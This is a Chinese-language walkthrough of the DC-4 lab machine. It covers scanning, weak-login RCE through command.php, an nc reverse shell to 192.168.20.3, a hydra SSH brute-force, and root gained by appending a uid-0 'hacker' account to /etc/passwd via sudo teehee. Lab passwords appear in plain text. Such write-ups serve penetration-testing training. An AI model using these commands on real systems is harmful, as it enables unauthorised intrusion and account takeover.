# VulHub DC-4

## 信息收集

### 内网扫描

```bash
arp-scan 192.168.20.0/24
```

得到dc-4的IP为`192.168.20.13`

### 端口扫描

```bash
nmap --min-rate 5000 -T4 -p- 192.168.20.13
```



#### 详细扫描

```bash
nmap -sCV -O --min-rate 5000 -T4 -p22,80 192.168.20.13 
```



### 目录扫描

```bash
dirsearch -u http://192.168.20.13
```

发现`command.php`,但是未认证会重定向至`login.php`



### 弱口令

admin/happy



## webshell

### RCE

`command.php`通过`POST`请求参数`radio`执行命令



经过测试可以执行任意命令



反弹shell

```bash
# kali
nc -nvlp 4444
```

```text
# dc-4
nc+-e+/bin/bash+192.168.20.3+4444
```



## jim

### suid

```bash
find / -perm -4000 -type f 2>/dev/null
```



test.sh可写,修改注入恶意命令后suid失效



### ssh brute

在backup目录下发现`old-password.bak`



将`old-password.bak`中的密码存入`pass`

```bash
hydra -l jim -P ./pass ssh://192.168.20.13
```

`jim`/`jibril04`



## charles

登录jim后提示有新邮件



邮件中泄露了charles的密码为`^xHhA&hvim0y`



### sudo

charles可以sudo执行teehee



## root

```bash
# 生成加密密码
openssl passwd 123456

# 添加hacker超级用户
echo 'hacker:$1$bM4DAlMv$k/4C4nxKXQtzBFAFAt1Qy.:0:0:::/bin/bash' | sudo teehee -a /etc/passwd

# 切换到hacker用户
su hacker   
``` 

